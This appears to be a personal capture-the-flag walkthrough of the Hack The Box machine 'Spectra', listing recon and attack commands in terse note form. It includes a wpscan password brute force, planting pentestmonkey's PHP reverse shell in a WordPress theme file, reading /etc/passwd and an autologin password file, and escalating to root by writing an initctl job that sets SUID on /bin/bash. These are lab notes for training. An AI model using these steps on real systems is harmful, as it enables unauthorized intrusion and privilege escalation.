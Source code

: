 # Spectra

> /etc/hosts spectra.htb

**Port 80** 

1. Jira
``` bash 
curl -s 10.10.10.229 | grep -i "jira" 1>/dev/null && echo "OK"
```

2. WordPress 
``` bash 
curl -s http://spectra.htb/main/ | grep -i "wordpress" 1>/dev/null && echo "OK"
wpscan --url http://spectra.htb/main/ -e u
wpscan --url http://spectra.htb/main/ 
wpscan --url http://spectra.htb/main --passwords ~/Downloads/rockyou.txt --usernames user -t 50
```

3. dir
``` bash
wfuzz -c -z file,/opt/node-dirbuster/lists/directory-list-2.3-medium.txt --hc 404 http://spectra.htb/FUZZ
```

> USERS
```
user : user (wp)
user: user (db)
```

### dir
```
main
wp
testing 
index-of*
files 
wp-admin/                                          
wp-content/                                       
wp-includes/                                       
index.php                                          
license.txt                                        
readme.html                                        
wp-activate.php                                    
wp-blog-header.php                                 
wp-comments-post.php                               
wp-config.php                                      
wp-config.php.save
wp-cron.php                                        
wp-links-opml.php                                  
wp-load.php                                        
wp-login.php                                       
wp-mail.php                                        
wp-settings.php                                    
wp-signup.php                                    
wp-trackback.php                                   
xmlrpc.php 
```

**PORT 22** 

> failed access with users


**PORT 3306** 


1. reverse shell - https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
2. http://spectra.htb/main/wp-content/themes/twentyseventeen/404.php


> connect with user no db, failed 

```
root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```



> cat /etc/issue
```
Developer Console
To return to the browser, press:

  [ Ctrl ] and [ Alt ] and [ <- ]  (F1)

To use this console, developer mode must be enabled.
Doing so will destroy any saved data on the system.

In developer mode, it is possible to
- login and sudo as user 'chronos'
- require a password for sudo and login(*)
- disable power management behavior (screen dimming):
  sudo initctl stop powerd
- install your own operating system image!

* To set a password for 'chronos', run the following as root:

chromeos-setdevpasswd

If you are having trouble booting a self-signed kernel, you may need to
enable USB booting.  To do so, run the following as root:

enable_dev_usb_boot

Have fun and send patches!
```

**LinPeas**

```bash
cat /etc/autologin/passwd
```

1. user:user
2. grupos? 
	1. developer
3. sudo?
	1. NOPASSWD(initctl)

```bash
sudo -u root /sbin/initctl list
vim /etc/init/test.conf 
script 
	chmod +s /bin/bash
end script
```


